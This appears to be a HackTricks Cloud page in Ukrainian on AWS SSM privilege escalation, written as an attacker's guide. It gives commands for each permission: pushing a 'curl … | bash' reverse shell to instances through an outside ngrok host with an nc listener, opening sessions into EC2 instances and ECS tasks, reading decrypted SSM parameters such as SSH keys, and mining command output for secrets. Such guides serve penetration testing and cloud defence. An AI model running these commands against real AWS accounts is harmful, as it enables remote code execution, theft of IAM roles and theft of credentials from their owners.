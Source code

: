 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

Для отримання додаткової інформації про SSM перегляньте:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Атакуючий з дозволом **`ssm:SendCommand`** може **виконувати команди в екземплярах**, що працюють з Amazon SSM Agent, і **компрометувати IAM Role**, що працює всередині нього.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
У випадку, якщо ви використовуєте цю техніку для ескалації привілеїв всередині вже скомпрометованого EC2 екземпляра, ви можете просто захопити rev shell локально за допомогою:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Потенційний вплив:** Пряме підвищення привілеїв до IAM ролей EC2, прикріплених до запущених екземплярів з працюючими SSM агентами.

### `ssm:StartSession`

Зловмисник з дозволом **`ssm:StartSession`** може **розпочати сесію, подібну до SSH, в екземплярах**, що працюють з Amazon SSM Agent, і **скомпрометувати IAM роль**, що працює всередині нього.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Щоб розпочати сесію, вам потрібно встановити **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Потенційний вплив:** Пряме підвищення привілеїв до IAM ролей EC2, прикріплених до запущених екземплярів з працюючими SSM Agents.

#### Підвищення привілеїв до ECS

Коли **ECS завдання** виконуються з **увімкненим `ExecuteCommand`**, користувачі з достатніми правами можуть використовувати `ecs execute-command`, щоб **виконати команду** всередині контейнера.\
Згідно з [**документацією**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), це здійснюється шляхом створення безпечного каналу між пристроєм, який ви використовуєте для ініціювання команди “_exec_“, та цільовим контейнером за допомогою SSM Session Manager. (Плагін SSM Session Manager необхідний для цього)\
Отже, користувачі з `ssm:StartSession` зможуть **отримати оболонку всередині ECS завдань** з увімкненою цією опцією, просто виконавши:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Потенційний вплив:** Пряме підвищення привілеїв до `ECS` IAM ролей, прикріплених до запущених завдань з увімкненим `ExecuteCommand`.

### `ssm:ResumeSession`

Зловмисник з дозволом **`ssm:ResumeSession`** може повторно **розпочати сесію, схожу на SSH, на екземплярах**, що виконують Amazon SSM Agent з **відключеним** станом сесії SSM та **компрометувати IAM роль**, що виконується всередині неї.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Потенційний вплив:** Пряме підвищення привілеїв до IAM ролей EC2, прикріплених до запущених екземплярів з запущеними агентами SSM та відключеними сесіями.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Зловмисник з вказаними дозволами зможе перерахувати **параметри SSM** та **читати їх у відкритому вигляді**. У цих параметрах ви часто можете **знайти чутливу інформацію**, таку як SSH ключі або API ключі.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Потенційний вплив:** Знайти чутливу інформацію всередині параметрів.

### `ssm:ListCommands`

Зловмисник з цим дозволом може перерахувати всі **команди**, надіслані, і, сподіваючись, знайти **чутливу інформацію** в них.
```
aws ssm list-commands
```
**Потенційний вплив:** Знайти чутливу інформацію всередині командних рядків.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Зловмисник з цими дозволами може перерахувати всі **команди**, надіслані та **прочитати вихідні дані**, сподіваючись знайти **чутливу інформацію** в них.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Потенційний вплив:** Знайти чутливу інформацію всередині виходу командних рядків.

### Codebuild

Ви також можете використовувати SSM, щоб потрапити всередину проекту codebuild, що будується:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
